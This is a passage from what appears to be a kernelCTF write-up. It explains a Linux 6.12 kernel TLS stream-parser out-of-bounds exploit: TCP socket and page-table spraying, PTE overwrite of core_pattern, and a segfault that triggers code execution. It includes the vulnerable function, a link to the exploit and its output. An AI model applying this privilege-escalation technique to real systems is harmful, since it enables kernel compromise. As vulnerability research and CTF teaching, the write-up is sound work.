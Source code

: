 Thus, we can **spray a large number of TCP sockets** and **splice six pages into each fragment array**. After that, freeing all of them will eventually cause one to be reclaimed by `strp->anchor`.

### 3.2. Spraying Pagetable

After the pages are released, we reclaim them by **spraying the page table**. When an out-of-bounds access is triggered in `tls_strp_copyin_frag()` [1], packet data is copied into the fragment and the copied content is under our control. This lets us **overwrite a PTE**.

``` c
static int tls_strp_copyin_frag(struct tls_strparser *strp, struct sk_buff *skb,
                struct sk_buff *in_skb, unsigned int offset,
                size_t in_len)
{
    // [...]
    frag = &skb_shinfo(skb)->frags[skb->len / PAGE_SIZE];
    
    // [...]
    if (!strp->stm.full_len) {
        chunk = min_t(size_t, len, PAGE_SIZE - skb_frag_size(frag));
        WARN_ON_ONCE(skb_copy_bits(in_skb, offset, skb_frag_address(frag) + skb_frag_size(frag), chunk)); // [1]
    }

    // [...]
}
```

Concretely, we add a new PTE pointing to `core_pattern[]` and overwrite it. Triggering a segmentation fault then causes the kernel to use the overwritten `core_pattern[]`, allowing us to retrieve the flag.

The exploit for lts-6.12.46 is [here](/assets/kernelCTF-1day-0aeb54ac.c). It works in the remote environment as well.

```
user@lts-6:/tmp$ ./test
./test
[+] initialize
[+] spraying pagetable
[+] count: 0 (for populate pagetable)
[+] craft PTEs
[+] /proc/sys/kernel/core_pattern: |/proc/%P/fd/666 %P

[   19.574504] test[205]: segfault at 0 ip 0000000000402a19 sp 00007fff67f2a5d0 error 6 in test[2a19,401000+96000] likely on CPU 0 (core 0, socket 0)
[   19.578581] Code: 48 89 ce 89 c7 e8 77 35 02 00 48 8d 45 c0 48 89 c6 48 8d 05 51 4d 09 00 48 89 c7 b8 00 00 00 00 e8 5c 3f 00 00 b8 00 00 00 00 <41
kernelCTF{v1:lts-6.12.46:1759486024:a15c6a431f0965768f9100391e6ebb695924f1f7}
[   19.603944] sysrq: Power Off
[   19.605689] ACPI: PM: Preparing to enter system sleep state S5
[   19.607641] kvm: exiting hardware virtualization
[   19.609214] reboot: Power down
```